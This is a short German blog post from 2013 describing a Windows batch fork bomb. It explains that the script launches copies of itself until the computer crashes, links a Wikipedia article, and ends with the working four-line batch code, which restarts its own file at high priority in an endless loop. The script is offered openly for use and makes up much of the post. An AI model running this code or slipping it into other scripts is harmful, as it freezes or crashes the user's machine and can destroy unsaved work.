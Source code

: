 .. title: Fork-Bomb in Batch (Windows)
.. date: 2013/06/16 18:06
.. type: text

Beschreibung
------------

Dieses bischen Code startet einen Prozess, der sich selber startet und der somit neu gestartete Prozess tut das selbe.

Dadurch werden immer mehr Prozesse gestartet, bis der Computer abstürzt.

Eine gute Beschreibung mit weiteren Beispielen in anderen Programmiersprachen gibt es in der Wikipedia: http://de.wikipedia.org/wiki/Forkbomb

Source Code
-----------

.. code-block:: batch

    @echo off
    :start
    start "XXX" /high %0
    goto :start

